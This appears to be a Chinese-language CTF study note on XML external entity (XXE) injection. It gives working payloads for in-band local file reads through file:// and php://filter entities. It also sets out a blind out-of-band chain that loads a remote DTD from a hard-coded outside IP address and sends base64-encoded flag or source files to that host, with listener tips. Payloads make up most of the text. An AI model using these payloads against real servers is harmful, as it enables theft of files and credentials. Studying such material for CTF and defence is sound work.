 ```yaml
---
title: XXE漏洞
date: 2024-10-12 10:35:50
tags: CTF
categories: CTF-Web
---
```


# XXE基础

```
<?xml version = "1.0"?>  //xml头
<!DOCTYPE note[ <!ENTITY cc "aa"> ]>  //主体
<na>&cc;</na>  //xml
```

xml中的标签是可以任意命名的





# 有回显，外部实体XXE

```
<?xml version = "1.0"?>
<!DOCTYPE note[ <!ENTITY cc "aa"> ]>
<na>&cc;</na>
```

```
<?xml version = "1.0"?>
<!DOCTYPE ANY[ <!ENTITY f SYSTEM "file:///C://Windows//win/ini"> ]>
<x>&f;</x>
```

```
<?xml version = "1.0"?>
<!DOCTYPE ANY[ <!ENTITY admin SYSTEM "file:///C://Windows//win/ini"> ]>
<user><username>&admin;</username><password> admin</password></user> 
```

php伪协议文件读取

```
<?xml version = "1.0"?>
<!DOCTYPE ANY[ <!ENTITY admin SYSTEM "php://filter/read=convert.base64-encode/resource=/var/www/html/index.php"> ]>
<user><username>&admin;</username><password> admin</password></user> 
```



# 无回显，外部实体，XXE

xml payload

```html
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE test [
<!ENTITY % remote SYSTEM "http://123.60.57.4/test.dtd">
%remote;%dtd;%xxe;
]>
```

先执行remote实体，再在该服务器中的test.dtd文件中执行dtd实体，再执行xxe实体



在服务器上/var/www/html下创建test.dtd文件

```
<!ENTITY % file SYSTEM "php://filter/read=convert-base64.encode/resource=/flag.txt">
//这里的文件读取也可以换成其他伪协议，如http,file
<!ENTITY % dtd "<!ENTITY xxe SYSTEM 'http://123.60.57.4/pass=%file;'>">
```

```
<!ENTITY % file SYSTEM "https://127.0.0.1/flag.php">
<!ENTITY % dtd "<!ENTITY xxe SYSTEM 'http://123.60.57.4/pass=%file;'>">
```

<!-- &#x25; 就是百分号（&#x25; vps=% vps），因为是嵌套在里面的引用，不能直接写百分号 -->
<!-- 如果选择nc监听的话，端口一定要加！！！ -->
<!-- 如果选择看日志的话，端口一定不能加！！！ -->


